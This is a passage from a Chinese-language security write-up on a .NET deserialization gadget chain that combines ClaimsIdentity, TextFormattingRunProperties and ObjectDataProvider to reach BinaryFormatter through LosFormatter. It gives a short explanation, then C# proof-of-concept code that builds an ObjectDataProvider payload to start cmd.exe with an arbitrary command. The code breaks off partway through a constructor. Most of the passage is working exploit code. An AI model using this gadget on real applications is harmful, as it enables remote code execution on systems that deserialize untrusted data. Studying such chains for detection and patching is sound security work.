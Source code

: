#### ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**调用的类**：ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：寻找我们的`new BinaryFormatter().Deserialize`的位置

**思路**：

利用1：利用ClaimsIdentity类自身的m\_bootstrapContext字段是object类型，且没有标记NonSerialized，将我们的TextFormattingRunProperties对象赋值给这个字段，当反序列化的时候，LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段（Object类型都是Token\_BinarySerialized,没有对应的类型转换器,所以就会默认调用一个BinaryFormatter去）

例子：

```plain
namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                My my = new My();
                my.o = textFormattingRunPropertiesMarshal;
                losFormatter.Serialize(memory,my);
                memory.Position = 0;
                losFormatter.Deserialize(memory);
            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class My
    {
        public object o;
    }

    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
```